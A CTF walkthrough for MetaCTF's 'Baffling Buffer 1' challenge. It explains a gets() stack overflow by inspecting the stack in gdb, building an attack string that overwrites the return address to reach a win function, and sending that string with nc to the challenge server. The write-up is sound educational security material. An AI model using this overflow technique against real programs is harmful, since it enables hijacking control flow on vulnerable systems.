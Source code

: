 # Baffling Buffer 1

The following is a walk-through of a problem taken from [MetaCTF](https://metactf.com/) CyberGames 2020. I have no idea how long their server will keep hosting this problem. No copyright infringement is intended.

## Problem

After pointing out the initial issue, the developers issued a new update on the login service and restarted it at `host1.metaproblems.com 5151`. Looking at the [binary](bb1) and [source code](bb1.c), you discovered that this code is still vulnerable.

## Solution

### Examining the Stack Layout

The C code is fairly simple. If the user enters `"Sup3rs3cr3tC0de"`, then `"Access granted!"` is printed. `"Invalid auth."` is supposed to be printed for any other inputs. This, however, is not the flag we are looking for. It appears from the code that if the function `win` were to somehow be executed, then the flag would be printed.

As the name suggests, the function `vuln` has a buffer overflow vulnerability due to it's use of the notoriously dangerous `gets`. We can get a better understanding of the stack layout by using GNU debugger.

```sh
chmod u+x bb1
gdb --quiet bb1
```

After executing `break vuln` and `run`, the program will run until it hits the breakpoint in `vuln`.

```txt
(gdb) break vuln
Breakpoint 1 at 0x401190
(gdb) run
Starting program: [redacted]

Breakpoint 1, 0x0000000000401190 in vuln ()
```

The output of `backtrace` shows where execution left off in each function. How do programs remember where each function left off? Every time `f` calls `g`, `f` pushes its "where I left off" address to the stack before jumping to `g`.

```txt
(gdb) backtrace
#0  0x0000000000401190 in vuln ()
#1  0x0000000000401238 in main ()
```

The output of `x/5i vuln` shows an assembler code dump of the first 5 instructions of `vuln` and also shows an arrow pointing at the next instruction to be executed. The next instruction `sub $0x30,%rsp` is for allocating 48 bytes on the stack for `char buf[48]`.

```txt
(gdb) x/5i vuln
   0x40118c <vuln>:     push   %rbp
   0x40118d <vuln+1>:   mov    %rsp,%rbp
=> 0x401190 <vuln+4>:   sub    $0x30,%rsp
   0x401194 <vuln+8>:   lea    0xe7b(%rip),%rdi        # 0x402016
   0x40119b <vuln+15>:  callq  0x401030 <puts@plt>
```

The output of `x/2a $rsp` shows two address-width (8 bytes each) values on the top of the stack. Since `push %rbp` was the most recent stack operation, the saved value of `%rpb` resides on the top of the stack. Next comes the address `0x401238` which is the same address we saw in `backtrace`.

```txt
(gdb) x/2a $rsp
0x7fffffffdba0: 0x7fffffffdbb0  0x401238 <main+74>
```

Using `print win` is one of **many** ways to obtain the address of `win`. The goal of our attack will be to overwrite the return address `0x401238` with `0x401172` so that control goes to `win` instead of back to `main`.

```txt
(gdb) print win
$1 = {<text variable, no debug info>} 0x401172 <win>
```

### Crafting the Attack String

We have located the region of memory that needs to be overwritten. A couple of considerations must be made for the attack string.

1. The string must start with the access code, otherwise `exit(-1)` will be executed and the attack will fail.
2. Memory addresses are 8 bytes, stored in little endian. This means the lowest bytes must be printed out first.

Here is a table that describes all of the contents of the attack string.

| #    | Bytes | Contents                              |
| :--- | :---- | :------------------------------------ |
| 1    | 16    | `"Sup3rs3cr3tC0de"`, ends with `NUL`  |
| 2    | 32    | Padding, any character sequence       |
| 3    | 8     | `0x00007fffffffde90` in little endian |
| 4    | 8     | `0x0000000000401172` in little endian |
| 5    | 1     | Line feed, optional\*                 |

The string that needs to be typed in contains unprintable characters. Therefore, I created a small C program [`mal.c`](mal.c) that outputs the necessary string. \*Recall that `gets` reads input until newline or EOF is encountered. If it is going to be piped into `bb1`, then printing line feed is required. If it is first redirected to a file and then in a separate command redirected to `bb1`, then EOF is implicit. The latter should be preferred.

```sh
gcc mal.c -o mal              # compile mal.c
./mal > attack                # save the attack string in a file
echo 'dummy flag' > flag.txt  # dummy flag
./bb1 < attack                # run bb1 with attack string input
```

This did not work locally on my machine. Running it with `gdb` told me that `flag.txt` did not exist. I suspect this is some kind of binary compatibility issue. However, this did work on the real problem server which is good enough.

```sh
nc host1.metaproblems.com 5151 < attack
```

```txt
Enter the access code:
Access granted!
MetaCTF{c_strings_are_the_best_strings}
```

The flag has been captured! I hope you enjoyed this demo.
